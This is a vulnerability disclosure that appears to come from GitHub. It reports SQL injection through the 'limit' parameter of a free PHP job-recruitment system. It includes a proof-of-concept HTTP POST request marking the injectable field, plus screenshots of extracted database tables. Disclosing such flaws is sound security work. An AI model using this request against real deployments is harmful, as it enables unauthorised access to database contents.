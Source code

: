 # job-recruitment-in-php has sql injection vulnerability in limit parameter.

## supplier 
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
limit parameter.

## describe

An unrestricted SQL injection attack exists in a job-recruitment-system via $limit parameter . The parameters that can be controlled are as follows:  limit parameter . A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the parameter value of $limit  is obtained , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![image-20241226193630575](https://github.com/user-attachments/assets/27840f9a-d4ab-4756-97c9-c3d4c805fa3c)

## POC

```
POST /_parse/_all_edits.php HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://airecruitmentsystem
Connection: close
Referer: http://airecruitmentsystem/_parse/_all_edits.php
Cookie: PHPSESSID=koqgqhv09iec6dqukgets9op9p
Upgrade-Insecure-Requests: 1
Priority: u=0, i

limit=1*&action=add_req&skillset1=1
```

**Result**

![image-20241226010957780](https://github.com/user-attachments/assets/e251313b-0522-41ae-aa72-4ec1aa9dd3a8)

Get tables of owlphin

![image-20241226193705624](https://github.com/user-attachments/assets/c27a831b-ecdb-4cf8-90d2-e39bbcc2294f)

**Discover**

西安电子科技大学： 李腾，谢亚轩，刘芮彤